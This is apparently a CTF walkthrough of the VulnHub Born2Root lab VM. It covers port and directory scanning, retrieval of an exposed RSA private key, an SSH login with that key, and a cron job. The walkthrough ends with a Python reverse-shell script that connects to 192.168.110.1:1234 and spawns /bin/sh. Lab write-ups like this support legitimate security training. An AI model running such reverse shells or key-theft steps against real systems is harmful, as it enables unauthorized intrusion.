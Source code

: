 https://infosecjohn.blog/posts/vulnhub-born2root-1/
https://www.hackingarticles.in/hack-born2root-vm-ctf-challenge/



When you see the ascii text that mean Born2Root's CTF challenge Is UP

    Hack it , reach root and capture the flag.

    Born2root is based on debian 32 bits so you can run it even if Intel VT-X isn't installed .

    Enumeration is the key.

    Level: Intermediate

I hope you will enjoy it !!
Doesn't work with VMware. Virtualbox only.


└─$ sudo nmap -sT -A -Pn -n -p- 192.168.110.14
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 21:45 CEST
Nmap scan report for 192.168.110.14
Host is up (0.0012s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title:  Secretsec Company 
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33100/tcp   status
|   100024  1          46196/tcp6  status
|   100024  1          47878/udp   status
|_  100024  1          54836/udp6  status
33100/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:E8:AF:79 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.18 ms 192.168.110.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.12 seconds



http://192.168.110.14/
Martin N
Hadi M
Jimmy S
martin@secretsec.com


└─$ curl http://192.168.110.14/robots.txt  
User-agent: *
Disallow: /wordpress-blog
Disallow: /files

gobuster dir -u http://192.168.110.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt


martin
hadi
jimmy



└─$ dirb http://192.168.110.14/                                                      130 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Apr 14 09:12:06 2021
URL_BASE: http://192.168.110.14/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.110.14/ ----
==> DIRECTORY: http://192.168.110.14/files/                                               
==> DIRECTORY: http://192.168.110.14/icons/                                               
+ http://192.168.110.14/index.html (CODE:200|SIZE:5651)                                   
==> DIRECTORY: http://192.168.110.14/manual/                                              
+ http://192.168.110.14/robots.txt (CODE:200|SIZE:57)                                     
+ http://192.168.110.14/server-status (CODE:403|SIZE:302)                                 
 

└─$ curl http://192.168.110.14/icons/VDSoyuAXiO.txt

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAoNgGGOyEpn/txphuS2pDA1i2nvRxn6s8DO58QcSsY+/Nm6wC
tprVUPb+fmkKvOf5ntACY7c/5fM4y83+UWPG0l90WrjdaTCPaGAHjEpZYKt0lEc0
FiQkXTvJS4faYHNah/mEvhldgTc59jeX4di0f660mJjF31SA9UgMLQReKd5GKtUx
5m+sQq6L+VyA2/6GD/T3qx35AT4argdk1NZ9ONmj1ZcIp0evVJvUul34zuJZ5mDv
DZuLRR6QpcMLJRGEFZ4qwkMZn7NavEmfX1Yka6mu9iwxkY6iT45YA1C4p7NEi5yI
/P6kDxMfCVELAUaU8fcPolkZ6xLdS6yyThZHHwIDAQABAoIBAAZ+clCTTA/E3n7E
LL/SvH3oGQd16xh9O2FyR4YIQMWQKwb7/OgOfEpWjpPf/dT+sK9eypnoDiZkmYhw
+rGii6Z2wCXhjN7wXPnj1qotXkpu4bgS3+F8+BLjlQ79ny2Busf+pQNf1syexDJS
sEkoDLGTBiubD3Ii4UoF7KfsozihdmQY5qud2c4iE0ioayo2m9XIDreJEB20Q5Ta
lV0G03unv/v7OK3g8dAQHrBR9MXuYiorcwxLAe+Gm1h4XanMKDYM5/jW4JO2ITAn
kPducC9chbM4NqB3ryNCD4YEgx8zWGDt0wjgyfnsF4fiYEI6tqAwWoB0tdqJFXAy
FlQJfYECgYEAz1bFCpGBCApF1k/oaQAyy5tir5NQpttCc0L2U1kiJWNmJSHk/tTX
4+ly0CBUzDkkedY1tVYK7TuH7/tOjh8M1BLa+g+Csb/OWLuMKmpoqyaejmoKkLnB
WVGkcdIulfsW7DWVMS/zA8ixJpt7bvY7Y142gkurxqjLMz5s/xT9geECgYEAxpfC
fGvogWRYUY07OLE/b7oMVOdBQsmlnaKVybuKf3RjeCYhbiRSzKz05NM/1Cqf359l
Wdznq4fkIvr6khliuj8GuCwv6wKn9+nViS18s1bG6Z5UJYSRJRpviCS+9BGShG1s
KOf1fAWNwRcn1UKtdQVvaLBX9kIwcmTBrl+e6P8CgYAtz24Zt6xaqmpjv6QKDxEq
C1rykAnx0+AKt3DVWYxB1oRrD+IYq85HfPzxHzOdK8LzaHDVb/1aDR0r2MqyfAnJ
kaDwPx0RSN++mzGM7ZXSuuWtcaCD+YbOxUsgGuBQIvodlnkwNPfsjhsV/KR5D85v
VhGVGEML0Z+T4ucSNQEOAQKBgQCHedfvUR3Xx0CIwbP4xNHlwiHPecMHcNBObS+J
4ypkMF37BOghXx4tCoA16fbNIhbWUsKtPwm79oQnaNeu+ypiq8RFt78orzMu6JIH
dsRvA2/Gx3/X6Eur6BDV61to3OP6+zqh3TuWU6OUadt+nHIANqj93e7jy9uI7jtC
XXDmuQKBgHZAE6GTq47k4sbFbWqldS79yhjjLloj0VUhValZyAP6XV8JTiAg9CYR
2o1pyGm7j7wfhIZNBP/wwJSC2/NLV6rQeH7Zj8nFv69RcRX56LrQZjFAWWsa/C43
rlJ7dOFH7OFQbGp51ub88M1VOiXR6/fU8OMOkXfi1KkETj/xp6t+
-----END RSA PRIVATE KEY-----


└─$ ssh martin@192.168.110.14 -i /home/kali/OSCP/boxes/born2root-1/key



martin@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5   * * * *   jimmy   python /tmp/sekurity.py


martin@debian:~$ cat /tmp/sekurity.py 


import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.110.1",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
